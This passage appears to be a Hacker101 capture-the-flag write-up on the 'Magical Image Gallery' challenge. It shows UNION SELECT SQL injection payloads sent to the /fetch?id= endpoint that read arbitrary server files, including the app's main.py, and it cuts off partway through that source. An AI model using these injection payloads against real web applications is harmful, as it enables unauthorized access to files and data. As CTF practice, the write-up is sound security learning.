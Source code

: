 Now we know the tables and columns and we can have an idea of how the server works. I would bet the query triggered from `/fetch?id=<id>` is something like:

```sql
SELECT filename FROM photos where id = <id>; 
```

This implies that the server loads whatever file name it gets from the database and sends it back to the client. Can we load other files besides our images? Let's keep this in mind after investigating the third entry in the `photos` table.

The query to `id` number `3` returns `500` because that file seems to be missing. Could this be one of our flags?

After trying to decrypt this is multiple ways, the answer to the question is YES. haha

## File loading

Let's get back to our hypothesis that we can load files from our server. Would it be possible to load any file using a query like the one below?

```sql
SELECT filename FROM photos where id = 4 UNION SELECT '<our file>'; 
```

Let's try it with `files/adorable.jpg ` since we know this file exists. I'm also using `id` as `4` because we know this `id` doesn't exist in our database.

```
https://<subdomain>.ctf.hacker101.com/fetch?id=4 UNION SELECT 'files/adorable.jpg'; --
```

And we get our status `200` answer as expected! The only problem is that we don't know how the files in our application are named. 

At this point I got a bit lost and had to get hints for this challenge, the one that helped me the most was:

```
This application runs on the uwsgi-nginx-flask-docker image
```

Which pointed me to: [https://github.com/tiangolo/uwsgi-nginx-flask-docker](https://github.com/tiangolo/uwsgi-nginx-flask-docker). 

According to this docker image we are running python and we usually have an `app` directory with files named:
* `uwsgi.ini`
* `main.py`

So I started querying for `main.py`  we get the file:

```
https://<subdomain>.ctf.hacker101.com/fetch?id=?id=4 UNION SELECT 'main.py'; --
```

And the response after inspectin the source code of the page:

```python
from flask import Flask, abort, redirect, request, Response
import base64, json, MySQLdb, os, re, subprocess
app = Flask(__name__)
home = '''
<!doctype html>
<html>
	<head>
		<title>Magical Image Gallery</title>
	</head>
	<body>
		<h1>Magical Image Gallery</h1>
$ALBUMS$
	</body>
</html>
```